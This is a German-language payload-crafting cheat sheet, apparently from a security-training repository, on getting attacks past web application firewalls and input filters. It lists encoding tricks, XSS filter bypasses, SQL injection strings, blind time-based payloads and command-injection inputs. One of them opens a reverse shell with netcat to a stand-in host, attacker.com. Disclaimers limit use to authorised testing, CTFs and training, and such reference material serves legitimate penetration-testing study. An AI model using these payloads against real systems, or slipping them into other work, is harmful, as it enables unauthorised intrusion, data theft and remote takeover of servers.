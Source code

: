 # 🎯 Payload Crafting Tips

**Ziel dieser Datei:**  
Diese Datei bietet eine kompakte Übersicht über Techniken zur Erstellung und Modifikation von Payloads – speziell im Hinblick auf die Umgehung von Web Application Firewalls (WAF), Filtern und anderen sicherheitsrelevanten Eingabekontrollen. Sie richtet sich vor allem an Penetration Tester, CTF-Spieler und Red Team-Mitglieder, die mit komplexen Eingabefiltern konfrontiert sind.

> ⚠️ **Disclaimer:** Diese Inhalte dienen ausschließlich zu Schulungs- und Testzwecken in autorisierten Umgebungen. Die Anwendung in produktiven oder fremden Systemen ohne ausdrückliche Genehmigung ist illegal.

---

## 🔧 Typische Encoding-Techniken

### 1. **URL-Encoding**
Wird oft verwendet, um Sonderzeichen zu maskieren.

| Zeichen | Encoding |
|--------|----------|
| `space` | `%20` oder `+` |
| `'`     | `%27` |
| `"`     | `%22` |
| `<`     | `%3C` |
| `>`     | `%3E` |
| `&`     | `%26` |
| `=`     | `%3D` |

> Beispiel:  
`<script>alert(1)</script>` → `%3Cscript%3Ealert(1)%3C/script%3E`

---

### 2. **Base64-Encoding**
Nützlich bei Befehlseinschleusungen (z. B. in RCEs, SQLi).

Beispiel in PHP:
```php
echo base64_decode('ZWNobyAnSGFja2VkIQ==');

→ Ausgabe: echo 'Hacked!'
```

---

## 3. Hex-Encoding / Char-Bypass
Alternative Darstellung für Payloads.

```sql
SELECT CHAR(65,66,67); -- ergibt "ABC"
```

Für XSS:

```html
<scr<script>ipt>alert(1)</scr<script>ipt>
```
Oder
```html
<svg/onload=String.fromCharCode(97,108,101,114,116)(1)>
```

---

## 🥷 Evasion-Techniken bei WAF / Inputfilter
### 🪤 Zeichen-Splitting / Padding
```html
<scr<script>ipt>
```
```bash
/bin/ba$IFS$IFSsh
```

---

## 🔀 Keywords fragmentieren
```sql
UNION/**/SELECT
```
```php
ec/*comment*/ho "test";
```

---

## ⏳ Zeitbasierte Payloads (blind testing)
Nützlich bei blind RCE oder SQLi:

```sql
' OR IF(1=1,SLEEP(5),0) --
```
```bash
ping -c 5 127.0.0.1
```
---

## 🧪 Beispiele nach Angriffsart
### 📚 SQL Injection
- ' OR 1=1 --
- `admin'/**/OR/**/1=1--+`
- UNION SELECT NULL,NULL,NULL--
- CONCAT(CHAR(117,115,101,114),CHAR(112,119))

### 🐚 Remote Code Execution (RCE)
```bash
127.0.0.1|echo hacked
127.0.0.1;nc -e /bin/bash attacker.com 4444
127.0.0.1&&sleep 5
```

---

## 📌 Hinweise
- Unterschiedliche Filter verlangen unterschiedliche Bypässe. Teste iterativ.
- In CTFs werden häufig Filter eingebaut – Payload-Crafting ist oft die Lösung.
- Nutze Burp Suite's Repeater oder Tools wie wfuzz, ffuf, sqlmap für Automatisierung.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

## 🧰 Nützliche Tools
- [🔍 HackBar (Burp Extension)](https://portswigger.net/bappstore/93c19861f4df4e60bd9d4568cdd97ed6)
- [🧪 PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)